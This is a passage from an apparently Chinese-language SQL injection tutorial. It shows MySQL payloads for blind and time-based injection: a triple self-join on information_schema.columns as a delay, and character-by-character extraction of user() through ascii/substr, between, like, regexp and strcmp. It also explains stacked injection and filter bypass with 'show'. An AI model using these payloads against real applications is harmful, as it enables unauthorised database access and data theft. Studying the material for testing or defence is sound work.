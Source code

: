##### 多表`information_schema`查询



```mysql
(select count(*) from information_schema.columns A, 
 information_schema.columns B, information_schema.columns C)
```

**笛卡尔积查询**：

对`information_schema.columns`自连接3次,产生巨大临时表,起到延时作用





**tips**

盲注时，可以用比较运算符

`=` `<>` `!=` `%` `between` `not between` `in` `not in` `LIKE` `REGEXP` `RLIKE`

```mysql
select user()%sleep(1)
(select ascii(substr((select user()),1,1)))=114 
select ascii(substr((select user()),1,1)) between 113 and 115 #在范围里
select ascii(substr((select user()),1,1)) in (113,114,115) # 在集合中
select user() like 'root%' #模式匹配
select user() regexp 0x5E726F6F5B612D7A5D # 0x5E726F6F5B612D7A5D=^roo[a-z] 正则匹配
```

也可以用字符串比较函数

```mysql
select strcmp(user(),'root@localhost')
select find_in_set(1,1)
```

无`select`，只能注同表的列

```mysql
select * from user where id = 1 and mid((username)from(1)for(1))='a'
```






#### 堆叠注入

堆叠注入，顾名思义，就是将语句堆叠在一起进行查询

原理：`mysql_multi_query()` 支持多条sql语句同时执行，语句间以分号（;）分隔,在 ; 结束一个sql语句后继续构造下一条语句，两条语句会一起执行，这就是堆叠注入。

但在实际场景中为了防止sql注入机制，往往使用调用数据库的函数是`mysqli_ query()`函数，其只能执行一条语句，分号后面的内容将不会被执行，所以堆叠注入的使用条件十分有限

其与联合注入的相同点在于是将两条语句合并在一起，而区别是`union` 或者`union all`执行的语句类型是有限的，常见的是用来执行查询语句，而堆叠注入可以执行的是任意的语句。在字符长度限制范围内，堆叠注入可以执行多条语句

在过滤了 `select` 和 `where` 的情况下，还可以使用 `show`来爆出数据库名，表名，和列名。

- show
